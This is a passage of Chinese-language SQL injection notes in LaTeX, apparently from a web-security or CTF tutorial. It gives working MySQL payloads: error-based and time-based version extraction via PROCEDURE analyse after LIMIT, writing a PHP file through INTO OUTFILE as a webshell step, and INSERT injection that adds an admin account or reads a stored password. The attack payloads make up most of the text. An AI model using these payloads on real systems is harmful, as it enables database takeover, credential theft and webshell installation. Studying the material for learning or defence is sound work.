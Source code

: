 \paragraph*{注入点在LIMIT后}
LIMIT后只能是数字，在语句没有ORDER\ BY关键字时，可以用UNION注入。MYSQL5.6前的版本可以用PROCEDURE注入,这个语句可以获取版本号：
\begin{lstlisting}
SELECT id FROM wp_news LIMIT 2 PROCEDURE analyse(extractvalue(1,concat(0x3a,version())),1)
\end{lstlisting}
'0x3a'是':'，处理时会报错，错误回显会显示version()。
没有错误回显时，也可以基于时间注入获取版本号：
\begin{lstlisting}
PROCEDURE analyse((SELECT extractvalue(1,concat(0x3a,(IF(MID(VERSION(),1,1) LIKE 5, BENCHMARK(5000000,SHA1(1))))))),1)
# BENCHMARK处理时间大概为1s。
\end{lstlisting}
确定版本在5.6之前后，可以用INTO\ OUTFILE语句直接向web目录写入webshell。
没有写文件权限时，可以用如下语句控制部分内容:
\begin{lstlisting}
SELECT xxxx INTO outfile "/tmp/xxx.php" LINES TERMINATED BY '<?php phpinfo;?>'
\end{lstlisting}

\subsubsection*{INSERT注入}
\paragraph*{注入点位于tbl\_name}
源码形式:
\begin{lstlisting}
INSERT INTO $\$${_GET['table']} VALUES(2,2,2,2)
\end{lstlisting}
注入方法：可以注释后面语句的情况下，可以直接向任意表格插入数据。
\begin{lstlisting}
table=wp_user values(2,'new_admin','new_password')#
\end{lstlisting}

\paragraph*{注入点位于VALUES}
源码形式:
\begin{lstlisting}
INSERT INTO wp_user VALUES(1,1,'$\$${_GET['value']}')
\end{lstlisting}
注入方法：闭合单引号后另行插入一个values。
\begin{lstlisting}
value=1',values(2,1,'aaa')
value=1',values(2,1,(SELECT pwd FROM wp_user LIMIT 1)) #能回显部分字段情况下直接查询
\end{lstlisting}

